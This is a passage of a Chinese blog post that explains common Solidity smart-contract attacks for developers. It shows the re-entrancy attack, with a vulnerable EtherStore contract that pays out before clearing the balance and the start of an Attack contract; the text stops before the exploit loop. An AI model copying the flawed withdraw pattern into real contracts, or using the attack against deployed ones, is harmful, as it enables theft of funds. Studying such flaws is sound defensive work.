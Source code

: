 ```yaml
---
layout: post
title:  "solidity 智能合约攻击方法分析"
categories: blockchain
tags: 原创 solidity security 
excerpt: 持续更新中 .......
author: fatcat22
---
```


* content
{:toc}




> 智能合约是目前以太坊和重要组成部分，solidity 是编写智能合约的一种比较常见的编程语言。但很不幸的是，既然智能合约是程序员用编程语言编写的，就会产生各种各样的 bug ，有的 bug 可以被恶意利用，从而产生漏洞与攻击。这篇文章里，我汇总与分析了 solidity 语言编写的智能合约的常见缺陷与漏洞，以便自己与读者在编写智能合约时，尽量避开这些陷阱。

> 本文收集的攻击方式还不全，先放一些上来吧，后面我会持续更新 ......


# 智能合约常见攻击手段

## Re-Entrancy 重入攻击

所谓重入，就是指 A 调用了 B ，在 B 中又调用 A 。当然重入不是问题，这里能产生攻击的关键是，虽然 A 在调用 B 之前会检查相关状态，但只在 B 返回后，才去更改相关状态，这导致 A 调用 B 、B 调用 A 这个循环可以一直循环下去，直到 B 主动停止。

[攻击示例](https://solidity-by-example.org/hacks/re-entrancy/):
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
```